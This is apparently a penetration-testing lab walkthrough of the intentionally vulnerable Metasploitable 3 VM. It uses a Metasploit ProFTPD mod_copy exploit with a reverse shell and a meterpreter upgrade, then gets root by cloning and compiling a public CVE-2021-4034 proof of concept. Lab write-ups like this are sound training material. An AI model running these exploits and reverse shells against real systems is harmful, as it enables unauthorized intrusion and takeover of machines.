 # Metasploitable 3 Walkthrough
> Quasar | 2022

## Initial analysis:
Nmap scan: ``% nmap -T4 -Pn -oN nmap_ports.txt -sV 192.168.244.133`` where ``192.168.244.133`` is the IP address of the Virtual Machine
Results:
```
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
8181/tcp closed intermapper
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Exploitation
Let's try the first hit on metasploit:

``% msfconsole ``

```
msf6 > search proftpd
Matching Modules
================
   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
```

The 4th one seems promising as the version number (1.3.5) matches with the machine.

```
msf6 > use 4
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www         yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5
```

Now, the variables ``RHOSTS`` and the ``SITEPATH`` need to be corrected.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.244.133
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
```

Also, we need to set a payload for this exploit. This module only supports cmd/unix/* payloads.
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/
set payload cmd/unix/bind_awk            set payload cmd/unix/generic             set payload cmd/unix/reverse_perl_ssl
set payload cmd/unix/bind_perl           set payload cmd/unix/reverse_awk         set payload cmd/unix/reverse_python
set payload cmd/unix/bind_perl_ipv6      set payload cmd/unix/reverse_perl        set payload cmd/unix/reverse_python_ssl
```
Now:

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD cmd/unix/reverse_python
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST vmnet8
```
``vmnet8`` is my NAT interface (and for) which the listener will be listening on.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.244.1:4444 
[*] 192.168.244.133:80 - 192.168.244.133:21 - Connected to FTP server
[*] 192.168.244.133:80 - 192.168.244.133:21 - Sending copy commands to FTP server
[*] 192.168.244.133:80 - Executing PHP payload /UeJyDI.php
[*] Command shell session 1 opened (192.168.244.1:4444 -> 192.168.244.133:35430) at 2022-07-30 23:15:27 +0530

```

Success, we now have a shell to work with!

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -i 1
[*] Starting interaction with 1...

bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
```

## Post exploitation
Now, let's try for a meterpreter:

```
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    192.168.244.1    no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on
```
This is the output after correcting the "blank spots/incorrect variables". Now, running it gives:

```
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Post module running as background job 0.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.244.1:4433 
[*] Sending stage (989032 bytes) to 192.168.244.133
[*] Meterpreter session 2 opened (192.168.244.1:4433 -> 192.168.244.133:49703) at 2022-07-30 23:36:49 +0530
[*] Command stager progress: 100.00% (773/773 bytes)

meterpreter > 
```

Cool!
Now, let's try to get root access on this machine.

We scan for any vulnerabilities using linpeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Just download it from the web in the machine or upload it using the meterpreter.

```
meterpreter > upload CTF/Metasploitable3/uploads/linpeas.sh
[*] uploading  : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 758.81 KiB (0.0%): /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] uploaded   : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
```

Now, running it inside the machine gives a lot of information about the it.

```
meterpreter > shell
cd /dev/shm
bash -i
www-data@ubuntu:/run/shm$ chmod +x linpeas.sh
www-data@ubuntu:/run/shm$ ./linpeas.sh
```

Immediately, linpeas pops up with a CVE number:

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034
```

Now, searching for the PoC's for the CVE in internet gave: https://github.com/arthepsy/CVE-2021-4034 (credits intended)
And we have git in the machine.

So,
```
www-data@ubuntu:/run/shm$ git clone https://github.com/arthepsy/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
www-data@ubuntu:/run/shm$ ls
CVE-2021-4034
linpeas.sh
www-data@ubuntu:/run/shm$ cd CVE-2021-4034
www-data@ubuntu:/run/shm/CVE-2021-4034$ ls
README.md
cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ cc cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ ./a.out
bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/run/shm/CVE-2021-4034# whoami
root
```

And we got root access for the machine.
